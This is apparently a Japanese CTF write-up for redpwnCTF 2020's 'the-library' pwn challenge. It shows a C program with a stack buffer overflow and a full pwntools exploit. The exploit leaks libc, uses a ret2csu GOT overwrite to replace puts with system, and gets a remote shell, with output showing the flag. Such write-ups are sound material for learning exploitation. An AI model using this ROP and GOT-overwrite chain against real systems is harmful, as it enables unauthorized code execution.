 # the-library (249 solves / 424 points)

> There's not a lot of useful functions in the binary itself. I wonder where you can get some...

libc.so.6, the-library, the-library.cが添付されていた。

## solution

the-library.cの内容は以下の通り

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  char name[16];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to the library... What's your name?");

  read(0, name, 0x100);
  puts("Hello there: ");
  puts(name);
}
```

BOFの脆弱性がある。libcがわかっているためlibcのベー紙アドレスをリークさせて`system('/bin/sh')`を実行させるだけでいい

```python
# solve.py
from pwn import *

elf = ELF('./the-library')
libc = ELF('./libc.so.6')

offset = 24

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
read_got = elf.got['read']
ret_gadget = 0x400506
pop_rdi = 0x400733
pop_regs = 0x40072a
call_r12 = 0x400710

payload = b'A' * offset
# leak libc
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
# ret2csu -> GOT overwrite
payload += p64(pop_regs)
payload += p64(0x0)      # rbx
payload += p64(0x1)      # rbp
payload += p64(read_got) # r12 => func addr
payload += p64(0x0)      # r13 => rdi
payload += p64(puts_got) # r14 => rsi
payload += p64(0x10)     # r15 => rdx
payload += p64(call_r12)
payload += p64(0xdeadbeef) # dummy (add rsp, 0x8)
payload += p64(0x0) # rbx
payload += p64(0x0) # rbp
payload += p64(0x0) # r12
payload += p64(0x0) # r13
payload += p64(0x0) # r14
payload += p64(0x0) # r15
payload += p64(ret_gadget) # rsp align
# exec system('/bin/sh')
payload += p64(pop_rdi)
payload += p64(puts_got + 8) # rdi <= '/bin/sh'
payload += p64(puts_plt)

#p = process('./the-library')
p = remote('2020.redpwnc.tf', 31350)

p.readuntil('What\'s your name?')
p.sendline(payload)
p.readlines(3)

libc_puts = u64(p.readline().strip().ljust(8, b'\x00'))
libc_base = libc_puts - libc.symbols['puts']
libc_system = libc_base + libc.symbols['system']
libc_binsh = libc_base + next(libc.search(b'/bin/sh'))

log.info(f"libc = {hex(libc_base)}")

payload = p64(libc_system) + b'/bin/sh\x00'
p.sendline(payload)

p.interactive()
```

流れを簡単に説明すると
1. putsのgotアドレスを表示させることで、libcをリークする。
2. __libc_csu_initを使いread関数を呼び出し、putsのgotをsystem関数のアドレスに書き換える。
3. putsのpltを呼び出し、system関数を実行する。

このようなことを行なっている。

```
$ python solve.py
...
[+] Opening connection to 2020.redpwnc.tf on port 31350: Done
[*] libc = 0x7fb4ed95e000
[*] Switching to interactive mode
$ ls
Makefile
bin
dev
flag.txt
lib
lib32
lib64
libc.so.6
the-library
the-library.c
$ cat flag.txt
flag{jump_1nt0_th3_l1brary}
$
```
